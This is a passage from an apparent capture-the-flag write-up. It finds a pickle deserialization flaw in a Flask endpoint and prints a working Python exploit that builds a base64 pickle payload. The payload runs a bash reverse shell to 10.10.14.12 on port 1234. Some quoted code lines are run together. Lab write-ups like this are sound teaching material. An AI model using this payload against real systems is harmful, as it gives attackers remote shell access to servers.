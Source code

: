 ```text
#app = DebuggedApplication(app, evalex=True, console_path='/debugconsole')
# TODO: Replace run-gunicorn.sh with real Linux service script
# app = DebuggedApplication(app, evalex=True, console_path='/debugconsole')if __name__ == "__main__":
  app.run(host='0.0.0,0', Debug=True)Subject: test
 Content: test
 URL for later reference: /uploads/test.xml
 File path: /home/roosa/deploy/src
```

We see that there is a _newpost_ directory that takes in user input \(request data\) in a POST method and loads it using the pickle module.

A quick search on the module tells us what it does.

> The [`pickle`](https://docs.python.org/3/library/pickle.html#module-pickle) module implements binary protocols for serializing and de-serializing a Python object structure.

The page also include the following warning.

![](../images/max/797/1*cV5mXhThL5oUMqcnD3ipvQ.png)

This is a HUGE red flag! The above warning states that you should never take in data from an untrusted source, however, in the script above, we can see that it takes in request data \(which is client side data that can be tampered with\) and doesn’t do any validation on that data. So we definitely have an arbitrary code execution vulnerability here.

Do a google search on “pickle exploit” to find the following [github page](https://gist.github.com/mgeeky/cbc7017986b2ec3e247aab0b01a9edcd). Download the exploit code and change the command to a bash reverse shell with the correct IP address and port.

```text
#!/usr/bin/python                                                                              
#                                                                                              
# Pickle deserialization RCE payload.                                                          
# To be invoked with command to execute at it's first parameter.                               
# Otherwise, the default one will be used.                                                     
#                                                                                              
                                                                                               
import cPickle
import sys
import base64DEFAULT_COMMAND = "bash -c 'bash -i >& /dev/tcp/10.10.14.12/1234 0>&1'"
COMMAND = sys.argv[1] if len(sys.argv) > 1 else DEFAULT_COMMANDclass PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,(COMMAND,))print base64.b64encode(cPickle.dumps(PickleRce()))
```
